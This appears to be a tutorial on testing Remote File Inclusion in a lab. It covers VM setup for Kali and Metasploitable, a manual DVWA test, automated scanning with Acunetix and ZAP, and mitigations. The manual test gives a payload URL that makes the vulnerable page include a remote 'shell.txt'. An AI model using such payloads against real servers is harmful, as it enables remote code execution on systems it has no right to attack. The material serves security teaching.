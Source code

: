 # Testing for RFI (Remote File Inclusion)

<p>
<strong>Remote File Inclusion (RFI) is a type of web vulnerability that allows an attacker to include a remote file, typically through a script on the web server. This vulnerability occurs when a web application allows user input to dictate what files are included in the server-side code execution. The included file can be any type, such as a script, image, or document, that resides on a remote server.</strong>
</p>
<h3>How RFI Works</h3>


<ol>

<li><strong>User Input: </strong>The web application takes user input, which specifies the location of a file to be included.

<li><strong>File Inclusion: </strong>The application does not properly validate or sanitize this input, allowing for the inclusion of files from remote servers.

<li><strong>Remote File Execution: </strong>The web server fetches and executes the file from the remote location.
</li>
</ol>
<h3>Setting Up the Environment</h3>


<h4>1. Install VirtualBox</h4>


<p>
<strong>Download and install<a href="https://www.virtualbox.org/"> VirtualBox</a> on your host machine.</strong>
</p>
<h4>2. Set Up Kali Linux VM</h4>


<ol>

<li><strong>Download <a href="https://www.kali.org/">Kali Linux</a>: </strong>Get the latest version from Kali Linux Downloads.

<li><strong>Create a New Virtual Machine:</strong> 
<ul>
 
<li>Open VirtualBox and click "New".
 
<li>Name: Kali Linux
 
<li>Type: Linux
 
<li>Version: Ubuntu (64-bit)
</li> 
</ul>

<li><strong>Allocate Resources:</strong> 
<ul>
 
<li>Memory: Allocate at least 2 GB of RAM.
 
<li>Hard Disk: Create a virtual hard disk (20 GB recommended).
</li> 
</ul>

<li><strong>Install Kali Linux:</strong> 
<ul>
 
<li>Start the VM and select the Kali Linux ISO as the startup disk.
 
<li>Follow the on-screen instructions to complete the installation.
</li> 
</ul>
</li> 
</ol>
<p>







</p>
<h4>3. Set Up Metasploitable VM</h4>


<ol>

<li><strong>Download <a href="https://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download">Metasploitable</a>: </strong>Get the VM from SourceForge.

<li><strong>Create a New Virtual Machine:</strong> 
<ul>
 
<li>Name: Metasploitable
 
<li>Type: Linux
 
<li>Version: Ubuntu (32-bit)
</li> 
</ul>

<li><strong>Allocate Resources:</strong> 
<ul>
 
<li>Memory: Allocate at least 512 MB of RAM.
 
<li>Hard Disk: Use an existing virtual hard disk and select the downloaded Metasploitable VMDK file.
</li> 
</ul>

<li><strong>Start Metasploitable:</strong> 
<ul>
 
<li>Ensure network settings are set to Host-only Adapter.
</li> 
</ul>
</li> 
</ol>
<p>




</p>
<h3>Testing RFI on DVWA</h3>


<h4>4. Set Up DVWA on Metasploitable</h4>


<p>
<strong>Ensure the following setups are completed:</strong>
</p>
<ol>

<li><strong>Start Metasploitable VM</strong>: 
<ul>
 
<li>Log in with credentials (username: msfadmin, password: msfadmin).
</li> 
</ul>

<li><strong>Find Metasploitable IP</strong>: 
<ul>
 
<li>Run the command ifconfig in Metasploitable to get the IP address.
 
<li>Note the IP address, e.g., 192.168.56.101.
</li> 
</ul>

<li><strong>Start Kali Linux VM</strong> 
<ul>
 
<li>Open a web browser in Kali Linux.
 
<li>Enter the Metasploitable IP into the search bar and hit enter
 
<li>Select DVWA (Damn Vulnerable Web Application)
</li> 
</ul>
</li> 
</ol>
<p>




</p>
<h4>5. Configure DVWA</h4>


<ol>

<li>Log In: Default credentials (admin // password).
</li>
</ol>
<p>




</p>
<ol>

<li>Set Security Level: 

<li>Navigate to DVWA Security under the left-side menu.

<li>Set the security level to Low.

<li>Click "Submit" to save changes.
</li>
</ol>
<p>




</p>
<p>
<strong>3. Navigate to the File Inclusion Page:</strong>
</p>
<ul>

<li><strong>Select File Inclusion.</strong>
</li>
</ul>
<p>




</p>
<ol>

<li><strong>Test for RFI:</strong>

<li><strong>In the URL bar, modify the parameter to include a remote file.</strong>

<li><strong>Original URL: http://192.168.1.250/dvwa/vulnerabilities/fi/?page=include.php</strong>

<li><strong>Test URL: http://192.168.1.250/dvwa/vulnerabilities/fi/?page=http://example.com/shell.txt</strong>
</li>
</ol>
<p>




</p>
<h4>Automated RFI Testing</h4>


<h4>1. Acunetix</h4>


<p>
Overview: Acunetix is a comprehensive web vulnerability scanner that detects a wide range of vulnerabilities, including RFI. It offers automated scanning capabilities and detailed reporting.
</p>
<p>
<strong>Features:</strong>
</p>
<ul>

<li>Scans for RFI, SQL injection, XSS, and other vulnerabilities.

<li>Provides detailed reports with remediation advice.

<li>Supports both black-box and gray-box testing.
</li>
</ul>
<p>
<strong>Usage:</strong>
</p>
<ol>

<li>Install Acunetix on your machine or use the online version.

<li>Set up a new scan target by entering the URL of the web application (e.g., http://192.168.56.101/dvwa).

<li>Start the scan and monitor the progress.

<li>Review the results for RFI vulnerabilities.
</li>
</ol>
<p>
<strong>2. OWASP ZAP (Zed Attack Proxy)</strong>
</p>
<p>
Overview: OWASP ZAP is an open-source web application security scanner maintained by the OWASP community. It helps in finding security vulnerabilities in web applications.
</p>
<p>
<strong>Features:</strong>
</p>
<ul>

<li>Automated scanner as well as a set of tools for finding security vulnerabilities manually.

<li>Intercepting proxy for inspecting and modifying requests and responses.

<li>Spidering to discover the content and structure of the website.
</li>
</ul>
<p>
<strong>Usage:</strong>
</p>
<ol>

<li>Install OWASP ZAP on Kali Linux.

<li>Open OWASP ZAP and set the target URL to http://192.168.56.101/dvwa.

<li>Start the scan and monitor the results.
</li>
</ol>
<h3>Recommendations and Mitigation Techniques for Remote File Inclusion (RFI)</h3>


<p>
To protect web applications from Remote File Inclusion (RFI) vulnerabilities, it is essential to implement a combination of secure coding practices, proper configuration settings, and regular security assessments. Here are some recommendations and mitigation techniques:
</p>
<p>
<strong>1. Input Validation and Sanitization</strong> - Ensure all user inputs are properly validated and sanitized to prevent malicious data from being processed by the application.
</p>
<p>
<strong>2. Disable URL File Inclusions - </strong>Prevent the inclusion of remote files by disabling URL file includes in the server configuration.
</p>
<p>
<strong>3. Regular Code Reviews and Security Audits - </strong>Conduct periodic code reviews and security audits to identify and fix potential RFI vulnerabilities.
</p>
<p>
<strong>4. Employ Web Application Firewalls (WAFs) - </strong>Utilize Web Application Firewalls to detect and block malicious requests attempting to exploit RFI vulnerabilities.
</p>
